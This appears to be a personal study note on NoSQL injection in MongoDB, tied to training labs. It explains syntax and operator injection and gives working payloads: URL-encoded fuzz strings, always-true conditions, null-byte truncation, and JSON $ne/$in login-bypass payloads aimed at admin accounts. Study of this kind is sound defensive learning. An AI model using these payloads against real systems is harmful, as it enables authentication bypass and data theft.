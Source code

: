 An injection in the database means that an attacker is able to execute database commands from a backend server.
![[Pasted image 20241027171915.png]]
This available you to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.
For more information check [[Injection]] in APIS
There are two different types of NO-SQLI:
##### Syntax Injection
The attacker aimed to break the syntax of the Mongo query, imagine you got the following request with this syntax:
```js
db.users.find({ "username": "user1", "password": "pass" })
```
So you could craft a payload which always will return true:
```js
db.users.find({ "username": "user1", "password": { "$ne": null } })
```
We'll see it more clear soon
##### Operator injection 
This occurs when you can use NoSQL query operators to manipulate queries, for example:
```js
db.users.find({ "username": "user1", "password": "pass123" })
```
And then inject:
```js
db.users.find({ "username": "user1", "password": { "$gt": "" } })
```
As the pasword will be always greater than an empty string whis will return false. we'll retake on this later

### Parsing
------
## Syntax Injection
### Testing for Syntax Injection 
So to detect this we need to cause an error on the datas base with the provided strings:
```
'"`
{ ;$Foo} 
$Foo \xYZ
```
So imagine you got a URL with the following query:
```url
https://insecure-website.com/product/lookup?category=fizzy
````
use the following url:
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.
###### Determining which character is proseced
To know what character is causing the issue we can check one by one, as submit `'`, so the mongo db query would be like this:
```
this.category == '''
```
And if this response differ from the original that may indicate that you broke the query syntax, you could confirm this by sending a correct syntax:
```
this.category == '\''
```
###### Confirming conditional behavior
So to confirm this we shpuld to send 2 conditions, one true, `' && 0 && 'x`, and other false, `' && 1 && 'x`:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
and the true one:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
###### Overriding existing conditions
Once you identified this you can attempt to override existing conditions to exploit the vulnerability, for this you can use a JS condition that alwas will be true `'||'1'=='1`
```url
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```
and this result in the following mongodb query:
```js
this.category == 'fizzy'||'1'=='1'
```
Following this we'll solved the lab: [[lab-nosql-injection-detection]]

--------
## Operator Injection
### Null byte
##### Example introduction
For this example will need to understand the `this.release` Mongodb method, which works to bring certain elements and hidden other (for example an application use that to get the 'Actives' users and not get others like 'AFK'). Then we got the following query:
```js
this.category == 'fizzy' && this.released == 1
```
This query limits the results to products with the specified `category` that have also been marked as released (`released == 1`).

This is nice, but There's a conflicting character which cause to ignore all the character after it. So this means that any additional conditions on the MongoDB query are ignored. By adding a null byte (`%00`), as in `category=fizzy'%00`, the injected payload can terminate the query early if MongoDB (or the application layer) stops processing characters after the null byte.

#### So what are the Operator Injection

In some cases we are be able to use operan, which are built in operator of mongodb as the follow ones:
   - NoSQL databases like MongoDB use query operators to specify conditions within queries.
   - Common MongoDB operators include:
     - `$where`: Matches documents satisfying a JavaScript expression.
     - `$ne`: Matches values not equal to the specified value.
     - `$in`: Matches values specified in an array.
     - `$regex`: Matches documents based on a regular expression.
#### **Injecting Query Operators**
   - **JSON Injection**: Operators can be inserted as nested JSON objects, instead of strings.
     - Example: `{"username":"wiener"}` → `{"username":{"$ne":"invalid"}}`
   - **URL-Based Injection**: For URL parameters, try injecting operators directly.
     - Example: `username=wiener` → `username[$ne]=invalid`
   - If this doesn’t work:
     1. Change the HTTP method from `GET` to `POST`.
     2. Set `Content-Type` to `application/json`.
     3. Include JSON data in the body, injecting operators within JSON.

   - **Tools**: Burp Suite’s **Content Type Converter** can help automatically convert requests from URL-encoded to JSON format for easier injection.

#### **Testing for Operator Injection Vulnerabilities**

Consider we got an endpoint accepting credentials, like a `POST` request with JSON:
```json
     {"username":"wiener","password":"peter"}
```
   - To test for operator injection, replace `username` or `password` values with an operator, such as `$ne`:
     ```json
     {"username":{"$ne":"invalid"},"password":"peter"}
     ```
   - If the operator is accepted, it will authenticate users who don’t have the username “invalid.”

If we inject this in both fields we could completely bypass all the authentication
```json
     {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
   - This matches all users where both fields aren’t “invalid,” potentially logging in as the first user in the collection.

#### **Targeting Specific Users**

   - To target a known or guessed username, you can use operators like `$in` with an array of common usernames:
     ```json
     {"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
     ```
   - This payload returns users matching any username in the `$in` array and where the password isn’t empty, potentially exposing privileged accounts. 

Using these techniques, operator injection can enable access control bypasses, unauthorized data access, or privilege escalation within NoSQL applications.

check [[lab-nosql-injection-extract-data]]